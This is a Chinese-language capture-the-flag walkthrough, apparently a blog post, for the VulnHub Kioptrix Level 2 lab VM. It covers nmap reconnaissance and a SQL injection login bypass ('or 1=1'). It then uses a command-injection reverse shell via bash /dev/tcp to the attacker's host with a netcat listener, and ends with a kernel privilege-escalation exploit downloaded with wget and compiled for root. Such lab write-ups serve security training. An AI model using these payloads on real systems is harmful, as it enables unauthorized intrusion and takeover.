








# 环境

来自[Kioptrix_leve_2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

解压之后，`Kioptix Level 1.vmx`修改启动配置，`ethernet0.networkName = "Bridged"`改成`nat`

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```



## 端口收集

```bash
sudo nmap -sT -r -p- 192.168.88.26
```



## 详细服务查询

```bash
sudo nmap -sV -p22,80,111,443,631，804,3306 192.168.88.26
```

攻击面80>443>3306>22



# 测试利用

## getshell1

访问80，发现是一个登录页面，可以考虑一下万能密码，或者爆破，试了一下万能密码`' or 1=1 -- +`，居然成功，说明有Sql注入点，443就没有什么东西



登录进去之后，发现这个执行ping命令的操作，可以考虑远程命令执行，成功




我们尝试反弹shell，payload=`|bash -i >& /dev/tcp/192.168.88.10/8888 0>&1`，进行监听`nc -lvvp 8888`



成功取shell，继续进行提权，首先查看linux系统和内核信息

```bash
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 athlon i386 GNU/Linux
cat /etc/*release
CentOS release 4.5 (Final)

searchsploit kernel 2.6 centos 4
```



找到比较接近的提权脚本，传给靶机进行编译运行，kali使用python开启http服务，靶机进行wget操作

```bash
gcc 9479.c -o exp
chmod 755 exp
./exp
```

成功提权root


